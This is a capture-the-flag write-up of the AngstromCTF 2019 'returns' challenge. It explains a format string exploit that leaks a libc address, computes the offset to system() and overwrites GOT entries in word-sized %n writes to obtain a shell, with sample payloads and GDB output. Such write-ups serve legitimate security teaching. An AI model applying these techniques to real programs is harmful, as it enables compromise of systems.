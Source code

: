 # Returns
Binary

## Challenge 

Need to make a return? This program might be able to help you out (source, libc).

/problems/2019/returns/

nc shell.actf.co 19307

Author: kmh11

[returns](returns)

[returns.c](returns.c)

[libc.so.6](libc.so.6)

## Solution

### Challenge objective

Same as the ***AngstromCTF 2019 - Purchases*** challenge, except there is no flag() function. 

We need to call system() ourselves. But system() is not present in PLT, this means that we need to do a leak of libc and then calculate the offset to system.

> Keywords: Format String Attack, Overwrite GOT PLT LIBC 

### Format String Attack

Fuzz for offset and we get offset of 8.

    # ./returns 
    What item would you like to return? 
        ABCDabcd  %lx %lx %lx %lx %lx  %lx %lx %lx %lx %lx  %lx %lx %lx %lx %lx 
    We didn't sell you a ABCDabcd  7fff96bf5620 7f150b4ec8c0 0 7f150b4f1500 7f150b4f1500  1 b3d1d25 6463626144434241 6c2520786c252020 . 

Here's my initial plan

1. Override puts -> main, so I can do format string multiple times.
2. back in main, then I leak libc
3. override fgets to calculated system

Step 1 is pretty standard as the addresses can be easily found in the binary using a disassembler.

### Leaking LIBC addresses

As seen, after the string pointer (which we have at offset 8), we will have some return addresses and variables.

![https://axcheron.github.io/images/2018-04-22-exploit-101-format-strings/normal_printf.svg](https://axcheron.github.io/images/2018-04-22-exploit-101-format-strings/normal_printf.svg)

So searching around, I eventually saw something at offset 17

    (gdb) run
    What item would you like to return? %14$lx-%15$lx-%16$lx-%17$lx-%18$lx-%19$lx-%20$lx-
    We didn't sell you a 7fffffff0000-2d3c14d832bc00-401330-7ffff7e2b09b-0-7fffffffecf8-100040000.

Offset 17 has the address `7ffff7e2b09b` which is `__libc_start_main+96`! We will use this to calculate the offset to system().

    (gdb) disass 0x7ffff7e2b09b
       0x00007ffff7e2b0b9 <+265>:   jmpq   0x7ffff7e2b010 <__libc_start_main+96>
       0x00007ffff7e2b0be <+270>:   mov    0x19c603(%rip),%rax        # 0x7ffff7fc76c8

### Calculation of LIBC offsets using GDB

Testing out locally first, we can get a quick offset value using GDB

    (gdb) printf "%p", __libc_start_main
    0x7ffff7e2afb0

    (gdb) printf "%p", system-__libc_start_main
    0x20ca0

    (gdb) disass 0x7ffff7e2afb0+0x20ca0
    Dump of assembler code for function system:
       0x00007ffff7e4bc50 <+0>: test   %rdi,%rdi
       0x00007ffff7e4bc53 <+3>: je     0x7ffff7e4bc60 <system+16>
       0x00007ffff7e4bc55 <+5>: jmpq   0x7ffff7e4b6b0
       0x00007ffff7e4bc5a <+10>:    nopw   0x0(%rax,%rax,1)
       0x00007ffff7e4bc60 <+16>:    sub    $0x8,%rsp
       0x00007ffff7e4bc64 <+20>:    lea    0x13c8b6(%rip),%rdi        # 0x7ffff7f88521
       0x00007ffff7e4bc6b <+27>:    callq  0x7ffff7e4b6b0
       0x00007ffff7e4bc70 <+32>:    test   %eax,%eax
       0x00007ffff7e4bc72 <+34>:    sete   %al
       0x00007ffff7e4bc75 <+37>:    add    $0x8,%rsp
       0x00007ffff7e4bc79 <+41>:    movzbl %al,%eax
       0x00007ffff7e4bc7c <+44>:    retq   
    End of assembler dump.

Using this, we can try and do a format string attack for printf->system replacement.

### Issue with overwriting large addresses

I faced an issue when I have *almost* solved it. 

I noticed that I could do small addresses such as `0x401000` but in this case, the LIBC addresses are huge `0x00007ffff7e4bc50`. No matter how much I tried, I could not get the address to be overwritten properly. 

I tried with some other addresses too. When I want to write 0xdeadbeef, it does not write properly and gives some gibberish.

But if I write 0x00adbeef, it works as expected.

### Explaination for why this occurs

I found out that the number of bytes must not exceed 32-bit signed. 

    Given the buffer input of 50 chars, I could fit in only 2 operations of `%n`.
    
    Let's say I want to write 0x7f9ef245bc50 in 2 operations.
    - ie. writing 0x7f9e and 0xf245bc50 using `%n` twice.

    This will fail because 0xf245bc50 is larger than a signed 32-bit integer.
    Printf format string does not support paddings of that larger than an integer.
    Hence causing an integer overflow and causing some gibberish address being written.

With the limitation of only 50 chars, there is no way to write byte by byte within a single `fgets()` call.

### How to override the address then?

I realised that I must write one at a time with separate and multiple `fgets()` calls.

This means we can only override `printf()` after 4 `%hn` operations are fully completed.

How can we achieve this? Looking at the decompilation...

![solution/ss1.png](solution/ss1.png)

I saw an unused function `__stack_chk_fail()`. I can use this function to act as a temporary "holder" to store our `system()` function address.

After we have done with 4 `%hn` operations, we can overwrite `printf()` GOT entry to point to the `__stack_chk_fail()` PLT.

## Final Action Plan

It will iterate through `main()` 6 times:

- Iterate 1a: Override `puts()` to `main()`
    + to allow us to access printf format string multiple times
- Iterate 1b: At the same time, leak libc using offset 17.

- Iterate 2: Override word 0 [`__stack_chk_fail()@got` -> `system()`]
- Iterate 3: Override word 1 [`__stack_chk_fail()@got` -> `system()`]
- Iterate 4: Override word 2 [`__stack_chk_fail()@got` -> `system()`]
- Iterate 5: Override word 3 [`__stack_chk_fail()@got` -> `system()`]

- Iterate 6: Override `printf()` -> `__stack_chk_fail()@plt` 
    + `stack_chk_fail()` will then call our `system()`


It seems to be working locally.
![solution/ss2.png](solution/ss2.png)

Previously I calculated the offsets locally using GDB. Now, update the script to the given server libc offsets.

    # readelf -s ./libc.so.6 | grep __libc_start_main
      2118: 0000000000020740   458 FUNC    GLOBAL DEFAULT   13 __libc_start_main@@GLIBC_2.2.5
    
    # readelf -s ./libc.so.6 | grep system
      1351: 0000000000045390    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

And we get a shell.

![solution/ss3.png](solution/ss3.png)

Final script: [solution/working_solution.py](solution/working_solution.py)

## Flag

    actf{no_returns_allowed}

---

### Resources

Leaking Libc
- https://security.stackexchange.com/questions/186737/bof-how-to-determine-adress-of-system-using-a-leak-memory
- https://security.stackexchange.com/questions/178006/how-to-leak-libc-base-address-using-format-string-exploit
- https://blog.techorganic.com/2016/03/18/64-bit-linux-stack-smashing-tutorial-part-3/
- https://libc.blukat.me/
- https://security.stackexchange.com/questions/155918/can-i-do-a-string-format-exploit-for-x64-systems

Unrelated but interesting reads
- https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/
- https://1ce0ear.github.io/2017/10/16/Zerostorage/
